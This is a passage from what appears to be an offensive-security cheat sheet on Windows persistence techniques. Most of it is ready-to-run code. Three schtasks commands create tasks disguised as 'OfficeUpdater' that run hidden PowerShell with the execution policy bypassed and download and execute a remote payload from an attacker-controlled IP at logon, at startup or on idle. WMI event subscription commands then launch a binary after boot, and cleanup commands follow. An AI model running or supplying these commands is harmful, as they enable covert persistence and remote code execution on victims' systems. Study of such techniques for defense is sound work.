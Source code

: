 ```powershell
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X64) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X64) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```

### Windows Management Instrumentation Event Subscription

> An adversary can use Windows Management Instrumentation (WMI) to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.

* **__EventFilter**: Trigger (new process, failed logon etc.)
* **EventConsumer**: Perform Action (execute payload etc.)
* **__FilterToConsumerBinding**: Binds Filter and Consumer Classes

```ps1
# Using CMD : Execute a binary 60 seconds after Windows started
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="WMIPersist", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="WMIPersist", ExecutablePath="C:\Windows\System32\binary.exe",CommandLineTemplate="C:\Windows\System32\binary.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WMIPersist\"", Consumer="CommandLineEventConsumer.Name=\"WMIPersist\""
# Remove it
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='WMIPersist'" | Remove-WmiObject -Verbose

# Using Powershell (deploy)
$FilterArgs = @{name='WMIPersist'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 60 AND TargetInstance.SystemUpTime < 90"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs
$ConsumerArgs = @{name='WMIPersist'; CommandLineTemplate="$($Env:SystemRoot)\System32\binary.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
$FilterToConsumerArgs = @{Filter = [Ref] $Filter; Consumer = [Ref] $Consumer;}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
# Using Powershell (remove)
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'WMIPersist'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'WMIPersist'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```
